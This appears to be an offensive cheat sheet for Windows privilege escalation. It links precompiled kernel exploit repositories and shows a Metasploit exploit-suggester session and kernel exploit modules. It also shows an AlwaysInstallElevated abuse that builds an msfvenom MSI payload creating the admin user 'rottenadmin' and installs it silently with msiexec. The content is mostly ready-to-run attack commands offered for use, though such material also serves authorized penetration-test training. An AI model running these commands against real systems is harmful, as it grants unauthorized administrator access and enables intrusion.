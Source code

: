 Precompiled Windows kernel exploits: 
- https://github.com/abatchy17/WindowsExploits
- https://github.com/AusJock/Privilege-Escalation/tree/master/Windows

MS11-046 : spawn a system shell in remote shell

Be root: https://github.com/AlessandroZ/BeRoot

## MSF exploit suggester
```
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1

msf5 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run
```

=> use exploit/windows/local/ms10_015_kitrap0d

=> use exploit/windows/local/ms15_051_client_copy_image 

## Use AlwaysInstallElevated ?
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Build a payload that create a new user
```
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
```

Install
```
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

List the admins
```
net localgroup Administrators
```
